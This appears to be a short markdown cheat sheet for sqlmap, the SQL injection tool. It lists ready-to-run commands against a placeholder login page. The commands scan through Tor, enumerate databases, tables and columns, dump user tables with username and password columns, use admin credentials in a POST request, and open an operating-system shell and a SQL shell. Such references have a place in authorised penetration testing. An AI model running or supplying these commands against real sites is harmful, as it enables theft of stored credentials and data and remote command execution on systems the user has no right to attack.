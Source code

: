 ## SQLmap
Use burp save item as a request
`sqlmap -r filename`

Easy Scanning option
`sqlmap -u "http://testsite.com/login.php"`

Scanning by using tor
`sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5
`
Scanning by manually setting the return time
`sqlmap -u "http://testsite.com/login.php" --time-sec 15
`
List all databases at the site
`sqlmap -u "http://testsite.com/login.php" --dbs`

List all tables in a specific database
`sqlmap -u "http://testsite.com/login.php" -D site_db --tables`
`
Dump the contents of a DB table
`sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump`
`
List all columns in a table
`sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns`
`
Dump only selected columns
`sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
`
Dump a table from a database when you have admin credentials
`sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump
`
Get OS Shell
`sqlmap --dbms=mysql -u "http://testsite.com/login.php" --os-shell
`
Get SQL Shell
`sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell
`
The ultimate manual for sqlmap can also be found [here](https://github.com/aramosf/sqlmap-cheatsheet/blob/master/sqlmap%20cheatsheet%20v1.0-SBD.pdf)
